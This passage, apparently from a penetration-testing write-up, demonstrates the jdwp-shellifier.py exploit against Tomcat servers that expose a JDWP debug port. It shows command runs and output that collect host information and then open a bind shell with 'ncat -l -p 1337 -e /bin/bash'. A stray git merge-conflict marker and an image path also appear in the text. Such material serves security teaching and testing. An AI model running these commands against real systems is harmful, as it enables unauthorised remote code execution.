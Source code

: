 Et voilà !! Swift and easy. As a demonstration, let’s start a Tomcat running with JPDA “debug mode” enabled:

 root@pwnbox:\~/apache-tomcat-6.0.39# ./bin/catalina.sh jpda start
>>>>>>> 72cbd88461ed0e65da5433596050dd2ecb643f6b

We execute our script without a command to execute, to simply get general system information:

```
hugsy:~/labs % python2 jdwp-shellifier.py -t 192.168.2.9 
[+] Targeting ‘192.168.2.9:8000’
[+] Reading settings for ‘Java HotSpot(TM) 64-Bit Server VM – 1.6.0_65’
[+] Found Runtime class: id=466[+] Found Runtime.getRuntime(): id=7facdb6a8038
[+] Created break event id=2
[+] Waiting for an event on ‘java.net.ServerSocket.accept’## Here we wait for breakpoint to be triggered by a new connection ##
[+] Received matching event from thread 0x8b0
[+] Found Operating System ‘Mac OS X’
[+] Found User name ‘pentestosx’
[+] Found ClassPath ‘/Users/pentestosx/Desktop/apache-tomcat-6.0.39/bin/bootstrap.jar’
[+] Found User home directory ‘/Users/pentestosx’
[!] Command successfully executed
```

Same command line, but against a Windows system and breaking on a totally different method:

```
hugsy:~/labs % python2 jdwp-shellifier.py -t 192.168.2.8 –break-on ‘java.lang.String.indexOf’
[+] Targeting ‘192.168.2.8:8000’
[+] Reading settings for ‘Java HotSpot(TM) Client VM – 1.7.0_51’
[+] Found Runtime class: id=593
[+] Found Runtime.getRuntime(): id=17977a9c
[+] Created break event id=2
[+] Waiting for an event on ‘java.lang.String.indexOf’
[+] Received matching event from thread 0x8f5
[+] Found Operating System ‘Windows 7’
[+] Found User name ‘hugsy’
[+] Found ClassPath ‘C:UsershugsyDesktopapache-tomcat-6.0.39binbootstrap.jar’
[+] Found User home directory ‘C:Usershugsy’
[!] Command successfully executed
```

We execute our exploit to spawn a bind shell with the payload “ncat -e /bin/bash -l -p 1337”, against a Linux system:

```
hugsy:~/labs % python2 jdwp-shellifier.py -t 192.168.2.8 –cmd ‘ncat -l -p 1337 -e /bin/bash’
[+] Targeting ‘192.168.2.8:8000’
[+] Reading settings for ‘OpenJDK Client VM – 1.6.0_27’
[+] Found Runtime class: id=79d
[+] Found Runtime.getRuntime(): id=8a1f5e0
[+] Created break event id=2
[+] Waiting for an event on ‘java.net.ServerSocket.accept’
[+] Received matching event from thread 0x82a[+] Selected payload ‘ncat -l -p 1337 -e /bin/bash’
[+] Command string object created id:82b
[+] Runtime.getRuntime() returned context id:0x82c
[+] found Runtime.exec(): id=8a1f5fc[+] Runtime.exec() successful, retId=82d
[!] Command successfully executed Success, we now have a listening socket!
root@pwnbox:~/apache-tomcat-6.0.39# netstat -ntpl | grep 1337
tcp        0      0 0.0.0.0:1337         0.0.0.0:*               LISTEN      19242/ncat      
tcp6       0      0 :::1337              :::*                    LISTEN      19242/ncat
```
